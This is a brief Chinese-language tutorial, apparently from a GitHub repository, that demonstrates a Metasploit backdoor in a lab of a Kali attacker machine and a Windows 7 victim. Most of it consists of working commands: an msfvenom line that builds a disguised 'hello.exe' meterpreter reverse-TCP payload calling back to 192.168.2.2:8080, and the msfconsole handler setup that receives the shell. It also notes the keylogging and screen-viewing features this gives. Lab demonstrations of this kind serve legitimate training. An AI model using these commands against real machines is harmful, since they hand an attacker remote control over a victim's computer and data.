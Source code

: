 # msf后门
metasploit是很强大的渗透工具，这里做后门简单演示  

准备2台机器：kali和win7  
kali预装了metasploit，扮演攻击者，win7扮演受害者  


在kali下使用msfvenom生成恶意文件：  
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.2.2 LPORT=8080 -a x86 -f exe -o hello.exe
```

kali监听本机8080端口：  
```bash
msfconsole
# 启动后执行以下命令
    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set LHOST 0.0.0.0
    set LPORT 8080
    exploit
```

windows执行hello.exe之后，kali即可获取shell  

获取shell后，可执行任意命令，还有各种封装好的功能，如键盘记录、查看屏幕等  
